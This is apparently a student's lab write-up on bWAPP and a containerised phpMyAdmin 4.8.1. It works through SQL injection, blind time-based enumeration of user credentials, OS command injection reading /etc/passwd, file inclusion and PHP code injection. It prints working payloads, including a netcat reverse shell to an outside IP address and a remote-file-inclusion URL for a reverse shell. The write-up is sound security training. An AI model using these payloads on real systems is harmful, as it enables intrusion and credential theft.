







# Web Application Security Lab 4 Writeup
### Olson Section 1
#### Ryan Cheevers-Brown


## SQL Injection - GET/Search

A SQL injection vulnerability in a GET parameter allows an attacker to send HTTP requests to a web server with a certain URL parameter set and talk directly to a database. This means that the attacker can read basically anything they want in the SQL database, as well as add new information to their liking. 

We start by discovering the functionality of the search box. Searching for nothing shows us this list of possible movies:


Searching for a specific movie, regardless of its presence in the list, reveals this URL structure: 

```/sqli_1.php?title=&action=search```


The `title=` portion of this URL means that the title is a GET parameter passed via URL to the MySQL server running the backend. Removing the `action=search` does not appear to effect the results and is likely unimportant. 


Next, I looked at whether this is vulnerable to a SQL injection. The bWAPP documentation tells us that the backend is MySQL. `ORDER BY` is a command we learned about in ISTE230, which sorts the records alphabetically by a particular column. It can be used to determine the size of a table by incrementing it up until the SQL backend throws an error. I started by setting this to 1 to test for functionality.

```iron' ORDER BY 1-- -```

After that, I set the value to 10 in order to try and find the number of columns in the table. This is a requirement in order to use the `UNION SELECT` command which will allow me to see other information in the database. 


That error lines up with the expected MySQL error. Decrementing the index to 7 reveals that the table has 7 valid columns. 

I am making the assumption that the SQL query baked into the web site is something like ```SELECT * FROM movies WHERE title LIKE '%<name>' ```and I am replacing the `<name>` when I write my query into the web site. 

Therefore, I'm going to try this command to find out what columns can be used to find data: 

```iron' UNION SELECT 1,2,3,4,5,6,7-- -```

Adding the `-- -` at the end should remove any stray SQL, as it is a comment character. 


We have access to columns 2, 3, 4, and 5. I can use those columns to show the data I want with the `UNION SELECT` syntax. 

```iron' UNION SELECT 1,user(),database()```

This shows that I have root access to the database and can therefore insert whatever false data and read whatver I want, provided I structure my SQL appropriately. 


## SQL Injection - POST/Search

Sending POST requests is slightly more difficult than just manipulating URL parameters. I'm going to keep my POST request code handy from Assignment 3, just in case. POST parameters are sent as a different part of the HTTP packet and are not encoded into the URL. Luckily, this form does that encoding for us. 

I'm going to start with the same SQL commands as from section 1, as I know this is a MySQL backend and is the same web app. 


As you can see, this is also vulnerable to SQL injection. This time, however, the SQL does not show up in the URL as it is a POST request. If that had not been determined before, we know now. 

This is exploitable in the same ways as the GET request vulnerability detailed above. 

## SQL Injection - Blind, Time-Based

Time-based blind SQL injection does not directly give the attacker any information, it requires them to wait and see how long the database hangs to determine whether the result of their query was true or false. 

First, I'm going to make sure that the field is SQL injectable. It appears that sending a ```SLEEP(20)``` command causes the page to hang on loading for 20 seconds. 


I'm going to use this vulnerability to make a judicious guess at what the database is called: 

```iron man' AND (SELECT SLEEP(10) FROM dual WHERE DATABASE() LIKE '%bwapp%')=1#```

When the string `'%bwapp%'` is replaced by the string `'john'`, the query returns instantly, instead of taking ~10 seconds. This means that the database in use is called `bwapp`. 

Let's check for passwords: 

```iron man' AND (SELECT SLEEP(10) FROM information_schema.tables where table_name LIKE '%admin%')=1#```

This doesn't work - it returns false (quickly). Checking for `'login'` similarly fails. However - checking for the table `'users'` takes a long time, and means that this table exists. 


From here, all full-line commands shown start with:

`iron man' AND (SELECT SLEEP(10) FROM` 

and end with 

`)=1 #`

We can discover the columns in this table with commands like

```information_schema.columns where column_name='login' AND table_name='users'```

```information_schema.columns where column_name='admin' AND table_name='users'```

```information_schema.columns where column_name='password' AND table_name='users'```

By scripting queries of the 'admin' and 'password' columns, we can eventually enumerate a user or two to log into the database with directly. This would be accomplished with commands like 

```iron man' AND IF ( (select MID(login,1,1) from users limit 0,1)='A' , SLEEP(10), 0)#```

This query tests the first character in the login column to determine if it is `'A'` or not. The length of time the database sleeps (10 seconds or none) will determine whether or not this exists. Iterating over the `MID` query and changing the letter `'A'` will eventually allow user and password enumeration, though it will take a while and require some scripting. 

## OS Command Injection

Command injection is a vulnerability where commands are run on the underlying web host and the output is displayed via the web site. This can be used for things like file or user enumeration as well as installation of backdoors through tools like metasploit. 

To start off, let's try some basic commands such as `ls`, `whoami`, and `cd ..; ls`. This will show us whether we can enumerate files, what user we are, and whether a directory traversal attack is possible. 

```; ls; ```


```; whoami; ```


```; cd ..; ls; ```


This output looks like I am the `www-data` user and can run commands on the host including directory traversal, giving me access to the whole file system. Running sudo does not work, as it appears the `www-data` user does not have access to that command. 

Finally, I decided to take a peek at `/etc/passwd` and `/etc/shadow` to see if I could read those files. 


I can read `/etc/passwd` and find out what other users are present on the box, though I can't read the password hashes directly in `/etc/shadow`. 

From here, I would figure out what specific operating system is running, then install a backdoor with metasploit and go to town with a proper reverse shell. 

## Remote/Local File Inclusion

This attack allows me to put a local file as a GET parameter in the URL and read its contents. I started by reading `/etc/passwd` with this URL: 

```localhost/rlfi.php?language=../../etc/passwd```


Reading other files that contain things like customer data would be a powerful method to exploit this vulnerability. 

If I were to host a reverse shell on a web server, I could drop the URL to that payload into the vulnerable link to get the payload on the web server. That would look something like this:

```http://bwapp/rlfi.php?language=http://mydomain.com/path/to/reverse/shell```

The web server would then download that file, leaving it present on the host for my use at a later (or current) time with a remote code execution vulnerability. This would be well paired with the OS RCE vulnerability above. 

## PHP Code Injection (My Choice)

This web page shows nothing to start off with, but it highlights the word **message**, leading me to believe that a **message** has something to do with the vulnerability. I decided to test if a GET request parameter was the trick, and so I visited the URL:

```http://localhost/phpi.php?message=this```

And got the following result: 


This leads me to believe that I can inject PHP code as a ```message``` parameter and have it executed with the result reflected back to me. 

I decided to test this further with the `phpinfo` function. 


This worked. Next, we will try some OS command injection, but through PHP with

```message=HelloWorld;system("whoami");```


Next, I tested whether the `www-data` user is isolated correctly by reading the contents of `/etc/passwd`: 


This result reveals that the user has full system file access, a reasonable level of permissions, and has not been chrooted into the www-data directory. 

This can be weaponized by injecting a payload like:

```message=hello;system("nc 104.244.192.142 5555 -e /bin/bash")```

Which would open up a reverse shell to my host, assuming I had configured it on my host ahead of time. This would give me full OS-level command injection via a reverse shell instead of just through PHP/web requests. 

## phpMyAdmin 4.8.1 - Remote Code Execution

This web appliation is a PHP webapp that runs on Apache2 and Ubuntu Linux to manage a MySQL database. I deployed it first on Ubuntu Linux in a virtual machine, and then moved it to a Docker container for ease of exploit testing. 

I have code saved elsewhere in this repository that duplicates the attack as shown on Exploit DB. Due to python version upgrades and syntax changes, the code required some modification in order to work properly with Python 3.10.6. 

The vulnerability exploited here is a remote code execution vulnerability. Once authenticated to theweb application, it allows the attacker to drop a payload in a GET parameter where it is saved to disk. The attacker then makes another request to execute the payload and get the result which is displayed in the terminal. I have the current payload as `'whoami'`, but this could easily be a `netcat` command to start a reverse shell on the host. 



The attack requires four HTTP requests, a valid username and password, and a session cookie to keep everything tracked. 

The attack starts by loading the login page for the web app. 



Next, the attacker gets the session cookie generated from this GET request:


This cookie is used to make sure that all the following HTTP requests go into the same session. This is important as the attack requires valid credentials and logging in via basic HTML authentication. 



Next, the payload is encoded and sent via POST request with the session cookie to the vulnerable web page, `import.php`. I'm sending the `whoami` command. The expected result is that I am `www-data`. 

This is a pretty normal exploitation of an unprotected `SQL` field. This can be identified by the payload containing `SELECT <stuff>;` which is proper `SQL` syntax. The `<?php system() ?>` function executes a command through the PHP engine directly on the OS shell. The `"{}"` simplifies to `"whoami"` once it passes through Python's .format() command. This is what drops the payload in the correct location on the server.  



The attacker makes sure to get the `phpMyAdmin` session ID and send that back to the server in a directory traversal that will get the result back from the server. 

The `%253f` appears to be a nonstandard encoded `?` character. The attack is doing a directory traversal to `/var/lib/php/sessions/sess_<session_cookie>` where the session cookie is being added by the Python format string command. 



This is the vulnerable code in the web page:



The programmer appears to be attempting to do some sort of string validation with the `'([^a-zA-z0-9_])\'` regular expression, but this does not work as I can pass in a `'` character to terminate the SQL query and pass PHP code directly in. 

This code loads the `$sql_query` variable with the value `SELECT '<?php system("whoami") ?>';`. This value is then passed down through code to here: 



The programmer mentions refactoring this, and a few lines farther down does check to make sure the user is not attempting to drop a database. 

This executes the command `SELECT` statement on the database which has no effect, and it passes back `<?php system("whoami")?>` in the `$analyzed_sql_results` value. This is now executable PHP code, no longer wrapped in SQL. Perhaps this is some sort of Database reflection attack?

Then, when the next page loads, that code is executed on the server and the result put in the location accessed by the directory traversal as seen above. 
